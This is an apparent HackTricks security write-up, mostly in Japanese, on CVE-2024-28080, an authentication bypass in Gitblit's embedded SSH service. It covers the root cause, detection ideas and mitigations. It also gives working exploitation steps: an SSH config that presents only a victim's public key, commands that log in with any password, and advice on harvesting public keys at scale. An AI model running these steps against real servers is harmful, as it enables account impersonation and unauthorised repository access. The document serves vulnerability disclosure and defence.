 # Gitblit Embedded SSH Auth Bypass (CVE-2024-28080)

{{#include ../../banners/hacktricks-training.md}}

## 概要

CVE-2024-28080 は、Apache MINA SSHD と統合する際のセッション状態ハンドリングの誤りに起因する、Gitblit の組み込み SSH サービスにおける認証バイパスです。ユーザーアカウントに少なくとも 1 つの SSH public key が登録されている場合、攻撃者が該当ユーザーの username とその public key のいずれかを知っていれば、private key や password なしで認証できます。

- 影響を受けるバージョン: Gitblit < 1.10.0 (1.9.3 で確認)
- 修正バージョン: 1.10.0
- 悪用に必要な条件:
  - インスタンスで Git over SSH が有効になっていること
  - 被害者アカウントに少なくとも 1 つの SSH public key が Gitblit に登録されていること
  - 攻撃者が被害者の username とその public key のいずれかを知っていること（公開されていることが多い、例: https://github.com/<username>.keys）

## 根本原因 (state leaks between SSH methods)

RFC 4252 によれば、public‑key authentication は 2 段階で進行します: サーバは最初に提示された public key が username に対して受け入れ可能かをチェックし、クライアントが署名で応答した後にユーザーを認証します。MINA SSHD では、PublickeyAuthenticator が 2 回呼ばれます: key acceptance（まだ署名なし）時と、クライアントが署名を返した後です。

Gitblit の PublickeyAuthenticator は、署名前の最初の呼び出しでセッションコンテキストを変更し、UserModel をセッションにバインドして true（"key acceptable"）を返していました。後に認証が password にフォールバックした際、PasswordAuthenticator はその変更されたセッション状態を信頼して処理をスキップし、password の検証なしに true を返しました。その結果、同じユーザーに対して public‑key の "acceptance" が先に起きていれば、任意の password（空も含む）が受け入れられてしまいました。

高レベルの欠陥の流れ:

1) クライアントが username + public key を提示（まだ署名なし）
2) サーバがその key がユーザーに属すると認識し、ユーザーをセッションに早期に紐付けして true（"acceptable"）を返す
3) クライアントは署名できない（private key がない）ため、認証は password にフォールバックする
4) PasswordAuthenticator はセッションに既にユーザーが存在するのを検出し、無条件に成功を返す

## ステップごとの悪用

- 被害者の username とその public key の 1 つを収集する:
  - GitHub は公開鍵を https://github.com/<username>.keys で公開している
  - 公開サーバはしばしば authorized_keys を公開している
- OpenSSH を設定して public half のみを提示するようにし、署名生成を失敗させることで password へのフォールバックを強制しつつ、サーバ側では public‑key acceptance パスをトリガーさせる

Example SSH client config (no private key available):
```sshconfig
# ~/.ssh/config
Host gitblit-target
HostName <host-or-ip>
User <victim-username>
PubkeyAuthentication yes
PreferredAuthentications publickey,password
IdentitiesOnly yes
IdentityFile ~/.ssh/victim.pub   # public half only (no private key present)
```
接続し、パスワードプロンプトで Enter キーを押してください（または任意の文字列を入力してください）:
```bash
ssh gitblit-target
# or Git over SSH
GIT_SSH_COMMAND="ssh -F ~/.ssh/config" git ls-remote ssh://<victim-username>@<host>/<repo.git>
```
認証が成功するのは、前段の public‑key フェーズがセッションを認証済みユーザーに変更（mutated）してしまい、password auth がその状態を誤って信頼するためです。

Note: If ControlMaster multiplexing is enabled in your SSH config, subsequent Git commands may reuse the authenticated connection, increasing impact.

## Impact

- 少なくとも1つの登録された SSH public key を持つ任意の Gitblit ユーザーの完全ななりすまし
- 被害者の権限に応じたリポジトリへの読み書きアクセス（source exfiltration、unauthorized pushes、supply‑chain risks）
- admin ユーザーを狙った場合、管理者権限に対する影響の可能性
- 純粋なネットワーク脆弱性；brute force も private key も不要

## Detection ideas

- SSH ログを確認し、publickey 試行の後に空または非常に短いパスワードでの成功した password authentication が続くようなシーケンスを探す
- フローを探す: publickey method がサポート外／不一致のキー素材を提示した後、同じユーザー名に対して即座に password が成功する流れ

## Mitigations

- Upgrade to Gitblit v1.10.0+
- Until upgraded:
- Disable Git over SSH on Gitblit, or
- Restrict network access to the SSH service, and
- Monitor for suspicious patterns described above
- Rotate affected user credentials if compromise is suspected

## General: abusing SSH auth method state‑leakage (MINA/OpenSSH‑based services)

Pattern: If a server’s public‑key authenticator mutates user/session state during the pre‑signature "key acceptable" phase and other authenticators (e.g., password) trust that state, you can bypass authentication by:

- 対象ユーザーの正当な public key を提示する（private key は不要）
- クライアントに署名を失敗させてサーバが password にフォールバックするようにする
- password authenticator が leaked state によりショートサーキットする間に任意の password を供給する

Practical tips:

- Public key harvesting at scale: pull public keys from common sources such as https://github.com/<username>.keys, organizational directories, team pages, leaked authorized_keys
- Forcing signature failure (client‑side): point IdentityFile to only the .pub, set IdentitiesOnly yes, keep PreferredAuthentications to include publickey then password
- MINA SSHD integration pitfalls:
- PublickeyAuthenticator.authenticate(...) must not attach user/session state until the post‑signature verification path confirms the signature
- PasswordAuthenticator.authenticate(...) must not infer success from any state mutated during a prior, incomplete authentication method

Related protocol/design notes and literature:
- SSH userauth protocol: RFC 4252 (publickey method is a two‑stage process)
- Historical discussions on early acceptance oracles and auth races, e.g., CVE‑2016‑20012 disputes around OpenSSH behavior

## References

- [Gitblit CVE-2024-28080: SSH public‑key fallback to password authentication bypass (Silent Signal blog)](https://blog.silentsignal.eu/2025/06/14/gitblit-cve-CVE-2024-28080/)
- [Gitblit v1.10.0 release notes](https://github.com/gitblit-org/gitblit/releases/tag/v1.10.0)
- [Apache MINA SSHD project](https://mina.apache.org/sshd-project/)
- [PublickeyAuthenticator API](https://svn.apache.org/repos/infra/websites/production/mina/content/sshd-project/apidocs/org/apache/sshd/server/auth/pubkey/PublickeyAuthenticator.html)
- [RFC 4252: The Secure Shell (SSH) Authentication Protocol](https://datatracker.ietf.org/doc/html/rfc4252)


{{#include ../../banners/hacktricks-training.md}}
